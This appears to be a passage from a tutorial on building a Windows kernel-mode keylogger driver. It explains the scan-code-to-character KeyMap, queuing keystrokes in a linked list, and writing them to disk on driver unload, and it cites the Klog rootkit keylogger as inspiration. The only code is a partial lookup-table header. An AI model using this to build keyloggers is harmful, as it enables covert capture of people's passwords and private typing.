 We create an character array KeyMap where we specify the actual characters corresponding to the scan code. We know that the scan code for y is 21, so in the 21st member of the array we place a y.

So all that we do to display the actual character is use the scan code keys->MakeCode as an offset to the array KeyMap[keys->MakeCode]. Now we would also like to write this character to disk. We can function ZwWriteFile but the only problem is that we cannot use this function in the OnReadCompletion function. It give us a blue screen of death.

So we use the same code that we used earlier, we create a structure of type `zzz` and initialize the ch member to the actual character. We add this structure which begins with a `LIST_ENTRY` structure to a doubly linked list whose head is List.

In function `DriverUnload` we write this list to disk copying code from the earlier programs. This is why we explained the code earlier so that we could use it now. This is how we write all the keys typed by us to disk. Lets learn more so that we can write a more complete key logger.

Our inspiration is a key logger **Klog** that is available on the site www.rootkit.com.
```c
aa.h
#define INVALID 0X00
#define SPACE 0X01
#define ENTER 0X02
#define LSHIFT 0x03
#define RSHIFT 0x04
#define CTRL 0x05
#define ALT 0x06
char KeyMap[84] = {
    INVALID, //0
    INVALID, //1
    '1', //2
    '2', //3
    '3', //4
    '4', //5
    '5', //6
    '6', //7
    '7', //8
    '8', //9
    '9', //A
    '0', //B
    '-', //C
    '=', //D
    INVALID, //E
    INVALID, //F
    'q', //10
    'w', //11
    'e', //12
    'r', //13
    't', //14
    'y', //15
    'u', //16
    'i', //17
    'o', //18
    'p', //19
    '[', //1A
    ']', //1B
    ENTER, //1C
    CTRL, //1D
    'a', //1E
    's', //1F
    'd', //20
    'f', //21
    'g', //22
    'h', //23
    'j', //24
    'k', //25
    'l', //26
```